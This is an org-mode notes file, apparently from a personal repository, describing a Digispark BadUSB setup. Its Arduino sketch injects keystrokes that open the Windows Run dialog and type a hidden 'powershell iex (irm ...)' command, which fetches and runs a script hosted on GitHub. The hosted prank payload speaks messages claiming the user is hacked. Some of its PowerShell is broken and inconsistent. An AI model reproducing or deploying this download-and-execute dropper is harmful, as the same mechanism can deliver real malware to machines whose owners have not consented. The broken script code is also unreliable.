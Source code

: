 #+TITLE: My Digispark playground
#+auto_tangle: t


:toc:
- [[#about][About]]
- [[#execute_powershell_scriptino][Execute_Powershell_Script.ino]]
- [[#scriptps1][script.ps1]]
  - [[#old-payloads][Old payloads]]

* About
In this org file the arduino script for my digispark is described and several payloads which are hosted on my Github.

* Execute_Powershell_Script.ino

#+begin_src C :tangle Powershell.ino
#include "DigiKeyboard.h"

void setup() {
  //Set Pins 1 as outputs.
  pinMode(1, OUTPUT); //my digispark red led: 1, others could be 0
}

void loop() {
  // Initialise digispark
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(600);

  // Opens the run dialog
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);

  // Writes the command
  DigiKeyboard.print("powershell -w h ");
  DigiKeyboard.print("iex (irm \"");
  DigiKeyboard.print("https://raw.githubusercontent.com/Prutserdt/dotfiles/master/Stack/Code/Powershell/script.ps1");  // The payload is here :-)
  DigiKeyboard.print("\")");
  // Enters it
  DigiKeyboard.sendKeyStroke(KEY_ENTER);

  //Finished. Now show a red LED to indicate  the payload is deployed
  digitalWrite(1, HIGH);
  for (;;) {/* Stops the loop */}
}
#+end_src

* Some powershell tips




* script.ps1
The next code block is my current script that is deployed by my Digispark and hosted on Github.


#+begin_src shell :tangle script.ps1

function convert-PDFtoText {
    param(
       [Parameter(Mandatory=true)][string]$file
    )
    Add-Type -path "https://static.pbslearningmedia.org/media/media_files/Full_text_I_Have_a_Dream_.pdf"
    $pdf = New-Object iTextSharp.text.pdf.pdfreader -Argumentlist $file
    for ($page = 1; $page -le $pdf.NumberOfPages; $page++){
        $texto=[iTextSharp.text.pdf.parser.PdfTextExtractor]::GetTextFromPage($pdf, $page)
        Write-Output $texto
    }
    $pdf.Close()
}
# Wait for 120 seconds before running next part
Start-Sleep -Seconds 1
# Text to speech :-)
Add-Type -AssemblyName System.speech
$s = New-Object System.Speech.Synthesis.SpeechSynthesizer
$s.Speak("Test test testicles. OMG whats going on. Seems like you are hacked right? Oh yes indeed you are hacked and powned. First let me do some work and I will talk to you in a minute. Meanwhile you should wave to the camera.")
Start-Sleep -Seconds 5
$s.Speak("hum nom nom. Don't worry just warming up my vocal chords. I will give a speech to you soon. Downloading some files.")
Start-Sleep -Seconds 5
$s.Speak($texto)

#+end_src



$s.Speak("Yo, yo. You have been hacked. Please wave to the camera. Ha, ha. Fortunately this is just for shits and giggles. But. Remember. You could have been seriously compromised. Over and out. Peace.")

https://static.pbslearningmedia.org/media/media_files/Full_text_I_Have_a_Dream_.pdf


** Old payloads

Plays the Imperial March (Star Wars)
This PowerShell script plays the Imperial March used in the Star Wars film series.
https://github.com/fleschutz/PowerShell
NOTES: Author: Markus Fleschutz | License: CC0
#+begin_src shell
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(698, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(415, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
exit 0 # success
#+end_src
